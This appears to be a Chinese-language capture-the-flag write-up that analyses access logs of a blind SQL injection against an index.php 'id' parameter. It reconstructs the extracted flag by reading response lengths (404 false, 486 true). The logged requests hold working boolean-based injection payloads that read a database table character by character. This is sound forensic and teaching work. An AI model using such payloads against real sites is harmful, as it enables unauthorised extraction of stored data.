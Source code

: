 ```
218.26.159.30 - - [06/Mar/2023:16:33:45  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),3,1))>110 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:46  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),3,1))>109 HTTP/1.1" 200 486

......

```

对第一个字符的盲注日志人工分析
```
第一个字符：
218.26.159.30 - - [06/Mar/2023:16:33:27  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>64 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:28  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>96 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:29  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>112 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:30  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>120 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:31  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>116 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:32  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>114 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:34  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>113 HTTP/1.1" 200 404

```
我们发现，第一个字符的ascii值可能是113或114，原因是：当倒数第二个盲注语句执行后，根据倒数第一个盲注语句的尝试值我们可以判断当前ascii值 <= 114. 但是我们无法得知最后一个盲注结果，因此113 <= ascii值 <= 114.  
由此发现我们缺少一个关键条件判断最后一个盲注语句的值，并且该条件必须是跟response有关  

在这里我们可以先人工猜测一下，ascii码的值应该是113，也就是q的ascii码值. 因为这样正好能对得上flag头qsnctf，但是没有依据，不能判断后续字符

继续深入分析，发现整条日志中，就最后一个数字没用到. 猜测该数字与response相关，进一步猜测该数字有可能是response长度  

由此根据第一条语句注入过程猜测当前response长度为404时，当前盲注语句为假，当前res长度为486时，当前盲注语句为真  

<table style="border:1px solid #2bbc8a;border-collapse: collapse" border="1">
  <tr>
    <td>
      response长度
    </td>
    <td>
      盲注语句值
    </td>
  </tr>
  <tr>
    <td>
      404
    </td>
    <td>
      假
    </td>
  </tr>
  <tr>
    <td>
      486
    </td>
    <td>
      真
    </td>
  </tr>
</table>
